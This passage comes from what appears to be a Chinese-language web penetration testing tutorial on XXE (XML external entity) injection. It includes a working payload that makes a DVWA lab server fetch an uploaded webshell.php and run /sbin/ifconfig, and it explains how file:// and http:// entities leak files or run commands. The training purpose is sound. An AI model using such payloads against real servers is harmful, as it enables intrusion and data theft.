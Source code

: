     ![](../img/8e6a71c4a80bf5097539b68730a8d0fa.png)

    使用这个技巧，我们就可以提取系统中的任何文件，只要它们可以在 Web 服务器的运行环境被用户读取。

    我们也可以使用 XEE 来加载页面。在上一个秘籍中，我们已经设法将 webshell 上传到服务器中，让我们试试吧。

    ```
    <!DOCTYPE fileEntity [ 
        <!ELEMENT fileEntity ANY> 
        <!ENTITY fileEntity SYSTEM "http://192.168.56.102/dvwa/hackable/uploads/ webshell.php?cmd=/sbin/ifconfig"> 
    ]> 
    <somexml><message>Hello World &fileEntity;</message></somexml>
    ```

    ![](../img/063c0ea8dd9349f95f1fc1a2fb4c48c3.png)

### 工作原理

XML 拥有叫做实体的特性。XML 实体是与值关联的名称，每次实体在文档中使用的时候，它都会在 XML文件处理时替换为值。使用它以及不同的可用包装器（`file://`来加载系统文件，或者`http://`来加载 URL），我们就可以通过输入校验和XML 解析器的配置，恶意使用没有合理安全措施的实现，并提取敏感数据或者甚至在服务器中执行系统命令。
